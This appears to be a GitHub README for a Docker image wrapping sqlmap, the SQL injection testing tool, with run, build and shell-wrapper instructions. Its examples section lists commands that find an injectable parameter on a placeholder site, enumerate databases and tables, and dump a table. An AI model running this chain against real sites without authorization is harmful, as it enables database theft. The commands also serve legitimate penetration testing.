 paoloo/sqlmap
=============
[![GitHub issues](https://img.shields.io/github/issues/paoloo/dockered-sqlmap.svg)](https://github.com/paoloo/dockered-sqlmap/issues)
[![Docker Pulls](https://img.shields.io/docker/pulls/paoloo/sqlmap.svg)](https://hub.docker.com/r/paoloo/sqlmap/)

Docker image for [sqlmap](http://sqlmap.org/)

Usage with my image from dockerhub:

		$ docker run --rm -it -v /tmp/sqlmap:/root/.sqlmap/ paoloo/sqlmap --url www.example.com/?id=1

and the report will be found at /tmp/sqlmap. 

If you want to modify and/or build this image:
```
		$ git clone git@github.com:paoloo/dockered-sqlmap.git
		$ chmod +x buildv2.sh
		$ ./buildv2.sh
```
Ths script will do everything to build the docker image contained in docker hub.

On older version, you would have to:
```
		$ git clone git@github.com:paoloo/dockered-sqlmap.git
		$ cd dockered-sqlmap/
		$ docker build -t paoloo/sqlmap .
```
You can create a bash wrapper for docker run commands in you `.bashrc`
or similar:

```bash
sqlmap(){
docker run --rm -it \
  -v /tmp/sqlmap:/root/.sqlmap/ \
  paoloo/sqlmap "$@"
}
```

#### SQLMAP EXAMPLES
- to find basic vulnerabilities

```$ docker run --rm -it -v /tmp/sqlmap:/root/.sqlmap/ paoloo/sqlmap --url "http://www.site.com/checkout.php?id=10"```
- to deeply inspect found exploitable point and get databasename
 
```$ docker run --rm -it -v /tmp/sqlmap:/root/.sqlmap/ paoloo/sqlmap --url "http://www.site.com/checkout.php?id=10" --dbs```
- list tables from found databas databasename
 
```$ docker run --rm -it -v /tmp/sqlmap:/root/.sqlmap/ paoloo/sqlmap --url "http://www.site.com/checkout.php?id=10" -D databasename --tables```
- dump table tablename from database databasename
 
```$ docker run --rm -it -v /tmp/sqlmap:/root/.sqlmap/ paoloo/sqlmap --url "http://www.site.com/checkout.php?id=10" -D databasename -T tablename --dump```

#### Enjoy
